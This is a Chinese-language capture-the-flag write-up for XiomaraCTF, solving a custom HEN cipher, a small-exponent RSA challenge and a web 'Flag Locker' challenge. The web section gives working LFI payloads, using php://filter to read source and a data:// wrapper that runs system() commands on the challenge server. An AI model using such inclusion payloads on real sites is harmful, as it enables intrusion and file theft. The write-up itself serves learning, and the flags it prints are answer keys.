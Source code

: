 ```yaml
---
title: XiomaraCTF 解題
tags:
    - CTF
    - 解題
    - 筆記
---
```


HackMD網址：https://hackmd.io/s/B1grPrzOf

有些水題就不寫writeup了，交給其他人吧 (´・ω・`)

# Crypto - Custom HEN

密文：
```
082_336_88_167755403
```

題目跟你說，密文的產生方式是：
```
## encryption
FLAG -> HEN_Cipher -> alphametic puzzle -> CipherText
```

所以我們只要逆向這個加密過程就好了：
```
## decryption
FLAG <- HEN_Cipher <- alphametic puzzle <- CipherText
```


先用 [alphametic puzzle solver](http://www.tkcs-collins.com/truman/alphamet/alpha_solve.shtml) 把每個數字代表的英文找出來：

![](https://i.imgur.com/I8IEJtQ.png)

得到：
![](https://i.imgur.com/aII59cu.png)

將密文替換：
```
082_336_88_167755403 = CZF_KKU_ZZ_GUYYPPNCK
```


:::danger
HEN的加密模式：
左移偏移量 = ((字母的位置) * (字串總長度)) mod 26
注意！字串總長度不包含底線！
:::

:::success
HEN的解密方法：
右移偏移量 = ((字母的位置) * (字串總長度)) mod 26
不過首先要解決的就是 'A' 往右偏移1位如何到 'Z'
:::

這邊我寫了 python script 作解密，分別算出每個字母的偏移量與明文。

字母左移的部份我採用 ASCII 來作減法運算。

{% codeblock lang:python %}
#! /usr/bin/python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
# Copyright © 2018 howpwn <finn79426@gmail.com>


Ciphertext = 'CZFKKUZZGUYYPPNCK' # remove the "_"

plaintext_size = len(Ciphertext)

left_move = []
plaintext = ""

print "Ciphertext: {0}".format(Ciphertext)

print "Each alphabet left shift is:"
for i in range(0, plaintext_size):
    left_move.append(((i+1) * plaintext_size) % 26)
    print "alphabet[{0}] need {1} step".format(i+1, left_move[i])
print "----------"

print "Counting the left shift alphabet is what..."
for i in range(0, plaintext_size):
    temp = ord(Ciphertext[i]) + left_move[i]
    if temp > 90: # 如果 temp 大於 ASCII 的 "Z"，我們就必須將它檢掉 26 讓它回到 A 開始繼續往右移
        temp -= 26
    plaintext += chr(temp)
    print plaintext
print "----------"
{% endcodeblock %}

(PS:這樣code好亂Orz...我應該用function去實作的...)

執行完腳本後會得到 "THEARSOFDIDUCTION"，這個時候把底線與FLAG頭加上去就是正確答案了。

xiomara{THE\_ARS\_OF_DIDUCTION}

# Crypto - Giveaway

可以秒解。


1. N 太大，factordb不能分解出p、q
2. e 很小

{% codeblock lang:python %}
#! /usr/bin/python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
# Copyright © 2018 howpwn <finn79426@gmail.com>

from libnum import n2s
from gmpy2 import iroot
e = 3
n = 481198641867289038243532927701020249905433964052522187774270437592775342143784702291483427578470414194602731404343532513840453569385856109993166637836189117235549985093499643724363002153995995953731212190003813128852867940536928597102669895224512199695772684398151784349020282852823384810308548307944122748283
c = 2039130155866184490894181588949291569587424373754875837330412835527276040280846677481047284126316137541961805207979583672570357348995401556991229785828117383170279052532972654304372432603436204862621797


m = iroot(c,e)
print n2s(m[0])
{% endcodeblock %}

由於e太小、N太大，導致於：
c = $m^{e}$ mod n 
&nbsp;&nbsp;&nbsp;= $m^{e}$

也就是說，如果要解密m
m = $\sqrt[e] {c}$

xiomara{4y3_4y3_cryp70_6uy!}


# Web - Flag Locker

這網站有LFI漏洞

可以用 php://filter 看到該網頁的源碼 (記得base64 decode)

```
http://103.5.112.91:1234/?locker=php://filter/convert.base64-encode/resource=why
```
不過依然找不到 FLAG，所以我們必須要能夠 RCE 才能找出FLAG：

```
http://103.5.112.91:1234/?locker=data://text/plain,<?php system("ls -al")?>;
```

最後，其實FLAG是在 index.php 裡面
```
http://103.5.112.91:1234/?locker=data://text/plain,<?php system("cat index.php")?>;
```

xiomara{s0metim3s_fl@g_c@n_b3_d3cl@red_@s_v@riable}
